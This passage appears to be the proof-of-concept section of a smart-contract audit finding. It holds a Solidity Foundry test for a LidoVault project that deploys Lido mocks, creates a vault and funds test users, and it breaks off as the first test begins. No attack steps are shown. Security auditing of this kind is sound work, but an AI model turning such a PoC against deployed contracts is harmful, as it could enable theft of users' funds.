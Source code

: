 ### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "@openzeppelin/contracts/utils/math/Math.sol";

import {Test, console2} from "forge-std/Test.sol";

import {VaultFactory} from "src/VaultFactory.sol";
import {LidoVault} from "src/LidoVault.sol";
import {ILido} from "src/interfaces/ILido.sol";
import {MockLido} from "src/mocks/MockLido.sol";
import {MockLidoWithdrawalQueue} from "src/mocks/MockLidoWithdrawalQueue.sol";

contract PoC is Test {
    using Math for uint256;

    address payable constant LIDO = payable(0xae7ab96520DE3A18E5e111B5EaAb095312D7fE84);
    address payable constant LIDO_WITHDRAWAL_QUEUE = payable(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

    VaultFactory vf;
    LidoVault lv;

    address fixedUser = makeAddr("fixedUser");
    address variableUser1 = makeAddr("variableUser1");
    address variableUser2 = makeAddr("variableUser2");
    address protocolFeeReceiver = makeAddr("protocolFeeReceiver");

    uint256 fixedSideCapacity = 1 ether;
    uint256 variableSideCapacity = 1 ether;
    uint256 duration = 7 days;

    function setUp() public {
        // Deploy the Lido mocks on the respective addresses
        deployCodeTo("MockLido", LIDO);
        deployCodeTo("MockLidoWithdrawalQueue", LIDO_WITHDRAWAL_QUEUE);

        MockLidoWithdrawalQueue(LIDO_WITHDRAWAL_QUEUE).initialize(LIDO);

        deal(LIDO_WITHDRAWAL_QUEUE, 100 ether);

        // Deploy the vault factory
        vm.prank(protocolFeeReceiver);
        vf = new VaultFactory(100, 100);

        uint256 vaultId = vf.nextVaultId();

        vf.createVault(fixedSideCapacity, duration, variableSideCapacity);
        (, address addr) = vf.vaultInfo(vaultId);

        lv = LidoVault(payable(addr));

        deal(fixedUser, 10 ether);
        deal(variableUser1, 10 ether);
        deal(variableUser2, 10 ether);
    }

    function test3() public {
        uint256 sharePriceBeggining = MockLido(LIDO).getPooledEthByShares(1 ether);

```